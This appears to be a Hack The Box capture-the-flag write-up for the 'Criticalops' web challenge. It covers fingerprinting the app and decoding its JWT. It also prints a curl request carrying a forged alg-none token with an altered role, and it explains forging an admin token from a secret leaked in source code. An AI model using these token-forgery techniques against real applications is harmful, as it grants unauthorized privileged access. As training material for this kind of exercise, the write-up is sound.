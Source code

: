 ```yaml
---
slug: /write-up/htb/challenges/critical-ops
pagination_next: null
pagination_prev: null
---
```


# Criticalops

https://app.hackthebox.com/challenges/Criticalops

Criticalops is a web app used to monitor critical infrastructure in the XYZ region. Users submit tickets to report unusual behavior. Please uncover potential vulnerabilities, and retrieve the hidden flag within the system.

The first thing we see is a self-signed certificate, which might be interesting to explore.

Whatweb reveals it is nextjs:

```bash
https://94.237.50.221:51712/ [200 OK] Country[FINLAND][FI], HTML5, HTTPServer[nginx/1.26.3], IP[94.237.50.221], Script, Title[CriticalOps - Infrastructure Management], UncommonHeaders[x-nextjs-cache,x-nextjs-prerender,x-nextjs-stale-time], X-Powered-By[Next.js], nginx[1.26.3]
```

We can register and see dashboards and so on. Cannot do much, just a form to create tickets. This might be a good opportunity for XSS or something related with forms.

In the ticket section, we can see a JWT token passed, decoding it we see:

```json
{
  "userId": "15f0d261-88f0-4092-bbe9-6990b0bf9cfc",
  "username": "test",
  "role": "user",
  "iat": 1754239502,
  "exp": 1754268302
}
```

We could try a JWT Confussion attack to be able to modify it maybe. We can modify the token and sign it with the public key because we have the certificate info. We can download the certificate and extract the public key using `openssl`.

curl -k 'https://94.237.54.192:57646/api/tickets' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br, zstd' \
  -H 'Referer: https://94.237.54.192:57646/tickets' \
  -H 'Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VySWQiOiJiMTQ1NGQ1ZC1mM2ZmLTQ3ZjItODU4YS1mNDNhODdjNWM1ODMiLCJ1c2VybmFtZSI6InRlc3QiLCJyb2xlIjoidGVzdCIsImlhdCI6MTg1NDMyMTQ2MiwiZXhwIjoxODU0MzUwMjYyfQ.' \
  -H 'Content-Type: application/json' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: authToken=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VySWQiOiJiMTQ1NGQ1ZC1mM2ZmLTQ3ZjItODU4YS1mNDNhODdjNWM1ODMiLCJ1c2VybmFtZSI6InRlc3QiLCJyb2xlIjoidGVzdCIsImlhdCI6MTg1NDMyMTQ2MiwiZXhwIjoxODU0MzUwMjYyfQ.' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Priority: u=4'

  No luck with the confussion attack. Let's check the source code.

  It looks like the secret to generate the JWT token is included in the source code. We can generate a JWT with role "admin" using the secret and boom, we got the token.

  Remember, if available, check the code for secrets!